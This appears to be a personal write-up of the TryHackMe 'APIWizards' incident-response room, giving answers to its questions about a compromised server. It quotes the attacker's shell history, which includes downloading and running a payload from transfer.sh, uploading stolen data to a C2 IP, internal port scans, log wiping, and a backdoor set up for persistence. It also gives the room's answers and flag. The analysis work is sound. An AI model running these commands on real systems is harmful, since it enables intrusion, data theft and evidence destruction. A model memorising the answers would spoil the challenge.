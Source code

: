 # APIWizards Writeup

Name: APIWizards
Date:  
Difficulty:  
Goals:  
Learnt:
Beyond Root:

- [[APIWizards-Notes.md]]
- [[APIWizards-CMD-by-CMDs.md]]

![](initialsshin.png)

Worst persistence ever...
![](initialweirdbehaviour.png)
Without bulldoozing anywhere else and look into dev's home directoy this is C2 address btw
![](niceipthere.png)

![](someauth.png)

![](sstulpn.png)

![](badhistory.png)

![](rootbashrc.png)

That time code in the source code of apiserver was already a massive red flag I am actual glad I did this the proper way rather lead chasing 
![](accesslog-1.png)

```
cd /tmp/
wget https://transfer.sh/2tttL9HJLG/rooter2
file rooter2 
chmod +x rooter2 && ./rooter2
cd /root/
ls -la
cat .ssh/authorized_keys 
ll .ssh/
curl --upload-file .dump.json http://5.230.66.147/me7d6bd4beh4ura8/upload
nc -zv 192.168.0.22 22
nc -zv 192.168.0.22 1024-10000 2>&1 | grep -v failed
curl -v 192.168.0.22:8080
wget 192.168.0.22:8080/cde-backup.csv
>/var/log/wtmp
>/var/log/btmp
lastlog --clear --user root
lastlog --clear --user dev
mv cde-backup.csv .review.csv 
systemctl status nginx
systemctl status apiservice
curl localhost
systemctl status apiservice
exit

```

```
{"C0":"ODguMTU2LjEzMi42Nw==","C1":"cHJvZC13ZWItMDAzOjoyMDIzLTA3LTMwIDE2OjAzOjI2Ojo1LjE1LjAtNzgtZ2VuZXJpYzo6VWJ1bnR1IDIyLjA0LjIgTFRTOjpzc2gtMjI=","C2":"MTkyLjE2OC4wLjIxOjIyOjoxOTIuMTY4LjAuMjE6ODA6OjE5Mi4xNjguMC4yMjoyMg=="}
```

Got all but without notes
```
How does the bind shell persist across reboots?  

What is the absolute path of the malicious service?

Can you spot and name one more popular persistence method?  

What are the original and the backdoored binaries from question 6?
```

Which programming language is a web application written in?  
```
ls -la /home/dev/apiserver
Python
```
What is the IP address that attacked the web server?  
```
cat /var/log/nginx/access.log.1
149.34.244.142
```

Which vulnerability was found and exploited in the API service?  
```
cat /var/log/nginx/access.log.1
# I put sh command injection, because I forget we are injecting onto an OS props to THM for the correcting correctish answers unlike some company
OS command injection
```

Which file contained the credentials used to privesc to root?  
```
# cat the answer
/home/dev/apiservice/src/config.py
```

What file did the hacker drop and execute to persist on the server?  
```
# This so annoying, because how is drop this into /tmp persistence? AAAAAAAAAAARG
/tmp/rooter2
```
Which service was used to host the “rooter2” malware?
```
cat /root/.bash_history
transfer.sh
```
Which two system files were infected to achieve cron persistence?
```
/etc/crontab, /etc/environment
```
What is the C2 server IP address of the malicious actor?  
```
5.230.66.147
```

What port is the backdoored bind bash shell listening at?  
```
3578
```
How does the bind shell persist across reboots?  
```
# Guess 
systemd service
```
What is the absolute path of the malicious service?
```
ls -la /etc/systemd/system/ 
echo $((1786*2+6))
# /tmp/s is weird 
cat /etc/systemd/system/socket.service

/etc/systemd/system/socket.service
```
Which port is blocked on the victim's firewall?
```
cat /root/.bashrc
3578
```
How do the firewall rules persist across reboots?  
```
cat /root/.bashrc
/root/.bashrc
```
How is the backdoored local Linux user named?
```
ls -la /home
support
```
Which privileged group was assigned to the user?  
```
# I guessed, but cat /etc/group 
cat /var/log/auth.log.1 # is the best for the brain way
sudo
```
What is the strange word on one of the backdoored SSH keys?  
```
cat /root/.ssh/authorized_keys
ntsvc
```
Can you spot and name one more popular persistence method?  
```
# dork persistence - could not find this 
SUID binary
```
What are the original and the backdoored binaries from question 6?  
```
# Guess bash because I could not find it with 
find / -type f -perm -04000 -exec ls -la {} \; 2>/dev/null
# but was use in the other persistence and clamav, bacause why
/usr/bin/bash, /usr/bin/clamav
```
What technique was used to hide the backdoor creation date?
```
# Guess
Timestomping
```
What file was dropped which contained gathered victim information?
```
/root/.dump.json
```
According to the dropped dump, what is the server’s kernel version?  
```
cat /root/.bash_history 
wget 192.168.0.22:8080/cde-backup.csv
>/var/log/wtmp
>/var/log/btmp

5.15.0-78-generic

```
Which active internal IPs were found by the “rooter2” network scan?  
```
cat /root/.bash_history and cat .dump.json 
192.168.0.22, 192.168.0.21 
```
How did the hacker find an exposed HTTP index on another internal IP?  
```
# was think too hard for this one...
# the . dots made think it was a command and then what command is XX oh nc OH
cat /root/.bashrc
nc -zv 192.168.0.22 1024-10000 2>&1 | grep -v failed
```

What command was used to exfiltrate the CDE database from the internal IP?  
```
cat /root/.bash_history 
wget 192.168.0.22:8080/cde-backup.csv
```
What is the most secret and precious string stored in the exfiltrated database?
```
cat /root/.review.csv
pwned{v3ry-secur3-cardh0ld3r-data-environm3nt}
```

## Post-Root-Reflection  

## Beyond Root

Linux Named Pipes for KOTH
